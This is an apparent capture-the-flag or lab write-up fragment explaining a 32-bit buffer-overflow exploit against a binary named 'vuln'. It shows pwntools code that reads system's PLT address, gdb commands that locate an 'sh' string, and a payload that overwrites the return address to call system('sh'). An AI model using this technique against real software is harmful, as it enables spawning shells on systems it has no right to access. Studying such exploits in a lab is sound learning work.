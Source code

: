 # Get address of system from plt

```

Because system function is used inside the program, we can get system addres from PLT. Add thesse two lines in exploit script

binary = ELF("./vuln", checksec=False)
system_plt_address = binary.plt.system

```

# Get address of sh string

```
Find address of string which contains sh

gdb vuln
b main
r
find 0x8048000,0x8049000,"Check your stash"

Output: 0x8048607

x/s  0x8048607+14 => sh_address = 0x8048607 + 14

```
# Payload

```
payload = offset * b"A" + p32(system_plt_address) + 4 * b"B" + p32(sh_address)

```
